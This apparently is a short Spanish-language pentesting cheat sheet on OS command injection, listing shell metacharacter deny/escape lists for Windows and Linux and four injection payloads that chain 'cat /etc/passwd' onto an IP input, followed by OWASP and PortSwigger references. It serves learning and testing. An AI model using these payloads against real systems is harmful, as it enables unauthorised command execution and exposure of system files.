 # Fz3r0 OWASP 💀🐝 - Command Injection 💉

## 💀 ¿Cómo explotar vulnerabilidad CMDI?

Una vez que se encontró la vulnerabilidad `in-band` o `blind` se procede a explotar de las siguientes maneras: 

### 💥 `In-Band CMDI: exploitation`

1. Utilizar `shell metacharacters` como payload inicial:

````py
## General deny list to be included for command injection:
| ; & $ > < ' \ ! >> #

## Escape or filter special characters for --->>> Windows
( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . " % @ / \ : + , `

## Escape or filter special characters for --->>> Linux
{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . " %  / \ : + , `

````

2. **Concatenar** comandos:

````py
## Concatena 127.0.0.1 + cat /etc/passwd + (concatena lo que sigue en el comando original con un &)

### Opción 1:
127.0.0.1 && cat /etc/passwd &

### Opción 2:
127.0.0.1 & cat /etc/passwd &

### Opción 3:
127.0.0.1 || cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

.
.
.

etc

````




## 📖 Recursos

- [Port Swigger - Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [OWASP - Command Injection Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [OWASP - Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
- [Udemy - Rana Khalil | Command Injection ](https://www.udemy.com/course/mastering-command-injection-the-ultimate-hands-on-course/learn/lecture/39297722#overview)
